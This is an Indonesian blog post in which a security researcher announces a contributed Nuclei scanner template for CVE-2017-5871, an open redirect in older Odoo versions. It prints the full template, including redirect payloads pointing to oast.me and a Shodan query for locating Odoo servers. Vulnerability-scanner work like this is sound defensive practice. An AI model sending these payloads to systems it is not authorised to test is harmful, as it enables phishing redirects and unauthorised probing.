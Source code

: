 ```yaml
---
title: Odoo LEQ 8.0-20160726 and 9.0 Open Redirect
excerpt: 01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.
date: 2024-10-01 01:37:00
tags: [cve]
categories:
  - [1337rokudenashi]
index_img: https://wallpaper.dog/large/20520951.png
banner_img: https://wallpaper.dog/large/20520951.png
---
```


01 Oktober 2024, saya menyumbangkan Template CVE-2017-5871 untuk ProjectDiscovery (Nuclei Templates). 02 Oktober 2024, Template CVE-2017-5871 sedang dalam proses peninjauan. 03 Oktober 2024, Template CVE-2017-5871 disetujui.

```yaml
id: CVE-2017-5871

info:
  name: Odoo <= 8.0-20160726 & 9.0 - Open Redirect
  author: 1337rokudenashi
  severity: medium
  description: |
    An Open Redirect vulnerability in Odoo versions <= 8.0-20160726 and 9.0. This issue allows an attacker to redirect users to untrusted sites via a crafted URL.
  impact: |
    Successful exploitation can redirect users to malicious sites, potentially leading to phishing attacks or information theft.
  remediation: |
    Update Odoo to the latest patched version provided by the vendor.
  reference:
    - https://sysdream.com/cve-2017-5871-odoo-url-redirection-to/
    - https://nvd.nist.gov/vuln/detail/CVE-2017-5871
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
    cvss-score: 5.4
    cve-id: CVE-2017-5871
    cwe-id: CWE-601
    cpe: cpe:2.3:a:odoo:odoo:8.0:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    shodan-query: title:"Odoo"
    product: odoo
    vendor: odoo
  tags: cve2017,cve,odoo,redirect

http:
  - method: GET
    path:
      - "{{BaseURL}}/web/session/logout?redirect=https://oast.me"
      - "{{BaseURL}}/web/session/logout?redirect=https%3a%2f%2foast.me%2f"
      - "{{BaseURL}}/web/dbredirect?redirect=https%3a%2f%2foast.me%2f"

    stop-at-first-match: true
    matchers:
      - type: regex
        part: header
        regex:
          - '(?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]*)oast\.me.*$'
# digest: 4a0a00473045022020526a4a017f0ebf412281aa95a72bf7a4f658c9f0762e3d04f8e7777c27c3aa02210096b1d8f905d0add3542ab88bf2780fff501aecd56d8e99a7d7ddd25f44bcd9ae:922c64590222798bb761d5b6d8e72950
```

Ini adalah bentuk kontribusi saya sebagai Security Researcher. Odoo LEQ 8.0-20160726 and 9.0 Open Redirect [(1337rokudenashi)](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2017/CVE-2017-5871.yaml)
